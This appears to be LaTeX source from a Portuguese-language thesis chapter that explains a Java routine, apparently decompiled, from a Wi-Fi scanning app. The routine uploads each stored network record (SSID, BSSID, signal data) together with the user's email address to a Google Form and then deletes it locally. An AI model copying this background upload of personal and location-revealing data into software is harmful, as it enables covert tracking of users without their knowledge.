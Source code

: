\documentclass[12pt, %
openright, 
oneside,
a4paper,
brazil]{facom-ufu-abntex2}
\begin{document}
\begin{lstlisting}
	if (!localIterator.hasNext())
        return;
      NetworkPoint localNetworkPoint = (NetworkPoint)localIterator.next();
      String str1 = localNetworkPoint.getSsid();
      String str2 = localNetworkPoint.getBssid();
      String str3 = localNetworkPoint.getCapabilities();
      String str4 = String.valueOf(localNetworkPoint.getFrequency());
      String str5 = String.valueOf(localNetworkPoint.getLevel());
      String str6 = localNetworkPoint.getData();
      String str7 = UserEmailFetcher.getEmail(paramContext);
      localHttpRequest.sendPost("https://docs.google.com/forms/d/1G_dkyvwug--i_We7qAaA3QV-Xw_plTBJeKdElW22S4w/formResponse", "entry_2059700=" + URLEncoder.encode(str1) + "&" + "entry_1828317397=" + URLEncoder.encode(str2) + "&" + "entry_2146852893=" + URLEncoder.encode(str3) + "&" + "entry_312023197=" + URLEncoder.encode(str4) + "&" + "entry_644637792=" + URLEncoder.encode(str5) + "&" + "entry_604910793=" + URLEncoder.encode(str6) + "&" + "entry_612999935= " + URLEncoder.encode(str7));
      localNetworkPointDAO.deletar(localNetworkPoint);
\end{lstlisting}  

 Na linha 11 é feita a requisição POST, utilizando a URL do endereço destinatário, e os dados da chamada os quais representam os campos do formulário que será respondido a quantidade de vezes necessárias para esvaziar o banco de dados local. 
 
Resumindo e exemplificando, imaginemos um cenário onde o aplicativo coletou durante o dia seis mil redes ao seu redor e armazenou em sua base de dados local. Ao chegar a noite, o dispositivo conecta-se com uma rede wireless com Internet, então o aplicativo ao receber a notificação que está conectado a Internet, faz seis mil requisições ao Google Docs, respondendo ao formulário criado, onde cada resposta contém dados de uma única rede sem fio coletada. 
 
 
\begin{figure}[hbt]
  \includegraphics[scale=0.4]{form}
  \caption{Página do formulário utilizado}
\end{figure}
\end{document}
